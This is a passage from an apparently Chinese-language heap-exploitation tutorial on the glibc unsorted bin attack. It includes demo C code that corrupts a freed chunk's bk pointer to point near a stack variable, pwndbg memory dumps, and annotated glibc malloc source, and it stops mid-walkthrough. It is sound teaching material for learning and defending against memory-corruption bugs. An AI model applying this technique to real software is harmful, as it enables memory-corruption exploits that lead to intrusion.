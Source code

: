 ![](https://cdn.nlark.com/yuque/0/2021/png/574026/1621325134515-b681e9d2-d666-493f-9a1d-df4fa983879a.png)

假如现在有堆溢出或UAF漏洞可以修改chunk_victim的bk指针到之前的stack_var（你没看错，又是bk指针）（b 35->c）：

```c
	fprintf(stderr, "We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer "
		   "point to %p\n",(void*)p[1]);

	//------------VULNERABILITY-----------

	p[1]=(unsigned long)(&stack_var-2);
	fprintf(stderr, "Now emulating a vulnerability that can overwrite the victim->bk pointer\n");
	fprintf(stderr, "And we write it with the target address-16 (in 32-bits machine, it should be target address-8):%p\n\n",(void*)p[1]);

	//------------------------------------
```

效果如下：

```c
pwndbg> x/300gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000251 #tcachebin
......
0x555555757250:	0x0000000000000000	0x0000000000000421 #chunk_victim
0x555555757260:	0x00007ffff7dcdca0	0x00007fffffffddb8
    							   #stack_var
    							   #0x00007ffff7dcdca0
......
0x555555757670:	0x0000000000000420	0x0000000000000200 #chunk--avoid top_chunk
......
0x555555757870:	0x0000000000000000	0x0000000000020791 #top_chunk
......
0x555555757950:	0x0000000000000000	0x0000000000000000
pwndbg>
```

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1621325405363-407ac8e7-529b-4c9c-854e-9450fa18d7bd.png)

接下来是重点，我们将把chunk_victim从unsortedbin中申请出来：

```c
	malloc(0x410);
```

这里选择引入源码调试，重点malloc源码如下：

```c
  for (;; )
    {
      int iters = 0;
      while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av)) //victim==0x555555757250
        {
          bck = victim->bk; //bck==0x7fffffffddb8
          if (__builtin_expect (chunksize_nomask (victim) <= 2 * SIZE_SZ, 0)
              || __builtin_expect (chunksize_nomask (victim)
				   > av->system_mem, 0)) //检查堆块的大小是否异常
            malloc_printerr ("malloc(): memory corruption");
          size = chunksize (victim); //size==0x420

          /*
             If a small request, try to use last remainder if it is the
             only chunk in unsorted bin.  This helps promote locality for
             runs of consecutive small requests. This is the only
             exception to best-fit, and applies only when there is
             no exact fit for a small chunk.
           */
```